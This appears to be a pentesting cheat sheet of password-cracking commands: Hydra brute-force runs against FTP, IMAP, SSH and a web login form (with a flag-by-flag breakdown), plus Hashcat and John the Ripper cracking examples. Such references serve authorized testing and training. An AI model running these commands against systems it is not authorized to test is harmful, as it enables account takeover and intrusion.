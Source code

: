 #### Hydra

```bash
  hydra -l user -P passlist.txt ftp://$IP
  hydra -L userlist.txt -p defaultpw imap://$IP/PLAIN
  hydra -l admin -p password ftp://$IP
  hydra -L logins.txt -P pws.txt -M targets.txt ssh
```

##### Web-Form BruteForce: 
Let's take as example a main login page accepting a pin number only for authentication http://$ip:8000/key.php which receives the input from the user and sends it to /login.php using the name key. We will use hydra to test every possible password that can be put into the system. 
The command below will try one password after another in the passlist.txt file.

```bash
hydra -l '' -P passlist.txt -f -v $ip http-post-form "/login.php:key=^PASS^:Access denied" -s 8000

#Command breakdown:
    -l '' indicates that the login name is blank as the security lock only requires a password
    -P passlist.txt specifies the password file to use
    -f stops Hydra after finding a working password
    -v provides verbose output and is helpful for catching errors
    $ip - the IP address of the target
    `http-post-form` specifies the HTTP method to use
    "/login.php:key=^PASS^:Access denied" has three parts separated by :
        `/login.php` is the page where the PIN code is submitted
        key=^PASS^ will replace ^PASS^ with values from the password list
        Access denied indicates that invalid passwords will lead to a page that contains the text “Access denied”
    -s 8000 indicates the port number on the target

```

#### Hashcat
```sh
  Attack-Mode   Hash-Type   Command
 ==============+==========+================================================================== 

  Wordlist      | $P$   | hashcat -a 0 -m 400 example400.hash wordlist.txt 

  Brute-Force   | MD5   | hashcat -a 3 -m 0 example0.hash ?a?a?a?a?a?a 

  Combinator    | MD5   | hashcat -a 1 -m 0 example0.hash example.dict example.dict 

 

```

#### John
```sh
#Automatic cracking
john --wordlist=[path to wordlist] [path to hash_file] 
```
